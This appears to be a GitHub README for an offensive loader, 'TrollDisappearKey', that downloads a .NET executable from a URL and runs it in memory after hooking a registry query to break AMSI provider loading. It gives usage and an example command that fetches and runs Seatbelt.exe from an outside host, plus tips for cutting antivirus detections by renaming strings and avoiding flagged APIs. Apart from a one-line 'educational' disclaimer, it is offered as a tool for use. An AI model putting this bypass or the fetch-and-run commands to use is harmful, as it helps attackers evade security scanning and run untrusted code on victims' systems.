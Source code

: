 # TrollDisappearKey
TrollDisappear.exe is a loader which allows loading of .exe assemblies (provide URL to assembly) without amsi scanning taking place during assembly.load()

# How does it work?
Upon assembly.load(), internals of amsi/clr will search for reg key "Software\Microsoft\AMSI\Providers" to load the relevant provider dlls (i.e security vendor dlls) 
![Image](https://github.com/user-attachments/assets/f1678081-5fa8-4f4d-b7d3-ae9bd2e02a9f)

We hook the reg query function and when amsi/clr tries to read "Software\Microsoft\AMSI\Providers" we overwrite its value to "Software\Microsoft\AMSI\Providers "  <- note the space after providers
This breaks the provider dlls loading process and we are able to assembly load and .net assembly we want  
![Image](https://github.com/user-attachments/assets/7ef91a6a-957f-4c91-80a2-c0b54409917c)

# What's unique?
concept is hooking / byte patching so nothing much really. \
For powershell, refer to TrollDisappearKeyPS
  
## Usage 
```
TrollDisappearKey.exe <URL TO .EXE ASSEMBLY> <ARGUMENT1,ARGUMENT2>
```

## Example
```
TrollDisappearKey.exe "https://github.com/Flangvik/SharpCollection/raw/refs/heads/master/NetFramework_4.7_x64/Seatbelt.exe" "AMSIProviders"
```
## Detections 
Not too bad since zero effort to evade detection, there's tons of things to improve but i shall leave it to the reader \
you can immediately drop it to maybe 5 by altering the ExecuteAssembly() function since its using standard code that's deemed malicious \
Can rename certain strings the the reg key path  \
Avoid the use of certain API calls and improve the hook library further \
![Image](https://github.com/user-attachments/assets/e4c80f07-ddbc-4ed6-9ad0-c8e104931f90)

## Features
Nothing actually, its quite barebone with short code profile so anyone can tweak it to their needs  (e.g tweak the code to load .dll assemblies instead of just .exe assemblies)

## Credits
1. Modified hooking library from https://github.com/liulilittle/NetHook

## Disclaimer
Should only be used for educational purposes!
